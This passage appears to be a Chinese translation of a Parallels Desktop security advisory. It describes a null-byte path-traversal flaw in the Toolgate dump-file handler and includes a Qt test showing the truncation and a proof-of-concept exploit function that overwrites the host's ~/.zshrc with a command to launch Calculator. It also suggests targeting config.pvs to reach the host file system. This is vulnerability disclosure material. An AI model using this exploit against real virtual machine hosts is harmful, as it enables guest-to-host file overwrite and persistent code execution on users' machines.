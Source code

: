   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    void write_dump_to_disk(pages *buffer0_pages, const QString& filepath) {    // ...    // Open the file for writing    QFile file(filepath);    if (!file.open(2)) { /* ... */ }  
        // Write the content of the buffer to it    pos = 0;    while (1) {        len = get_remaining_bytes_from_buffer(buffer0_pages, pos, &buf);        if (!len)            break;        pos += len;        file.write(buf, len);        // ...    }  
        // Close the file    file.close();    // ...}

乍一看，文件名似乎无法完全控制，因为format_dump_filename会截断它，然后为其添加多个后缀。但是，如果我们提供一个pbProcName缓冲区，其中我们的文件名后跟至少一个空字节，则调用QString::fromUtf8将创建一个以至少一个空
unicode 字符结尾的字符串（因为QStrings 不是以空字符结尾的）。然后，在向其追加其他字符串时，它们将在空 unicode
字符之后。最后，当它传递给QFile::QFile时，将只使用第一个空字符之前的字符。因此，我们可以完全控制文件名，除了最大长度为 19
个字符（因为被截断为 20 个字符，减去一个空字节）。

以下测试代码及其输出突出显示了此行为。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <QDebug>#include <QString>  
    int main(int argc, char *argv[]) {    char buf[10];    memset(buf, 0, sizeof(buf));    strcpy(buf, "Hello");    QString str = QString::fromUtf8(buf, sizeof(buf));    qInfo() << str;    str.append(" World");    qInfo() << str;    printf("%s\n", str.toStdString().c_str());}

输出：  

  *   *   * 

    
    
    "Hello\u0000\u0000\u0000\u0000\u0000""Hello\u0000\u0000\u0000\u0000\u0000 World"Hello

 **6、漏洞利用**  

此漏洞可用于用任意内容覆盖用户主目录中的文件。在我们的利用中，我们决定以 shell 配置文件为目标~/.zshrc并用一个简单的open
/System/Applications/Calculator.app.
这将导致每次用户打开新的终端窗口/选项卡时都会打开计算器应用程序。另一个有趣的目标可能是位于其主路径中的 VM
配置文件config.pvs，以尝试启用共享文件夹功能并获得对整个主机文件系统的访问权限。

  *   * 

    
    
    漏洞演示视频https://blog.impalabs.com/rsc/2303_advisory_parallels-desktop_toolgate/proof_of_concept.mp4

基本上，我们的利用归结为发出以下请求：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    void exploit(void) {    char inln[0x200];    char *CR = kzalloc(0x1000, GFP_KERNEL);    char *pbProcName = kzalloc(0x1000, GFP_KERNEL);  
        memset(inln, 0, sizeof(inln));    *(uint32_t *)(inln + 0) = 1;    *(uint32_t *)(inln + 8) = 4;    *(uint32_t *)(inln + 0x1c) = 1;    *(uint32_t *)(inln + 0x110) = 1;    strcpy(CR, "open /System/Applications/Calculator.app\n");    strcpy(pbProcName, "../../../.zshrc");  
        twobuf_req(0x8323, inln, 0x200, CR, strlen(CR), pbProcName, strlen(pbProcName)+1, 0);  
        //kfree(CR);    //kfree(pbProcName);}
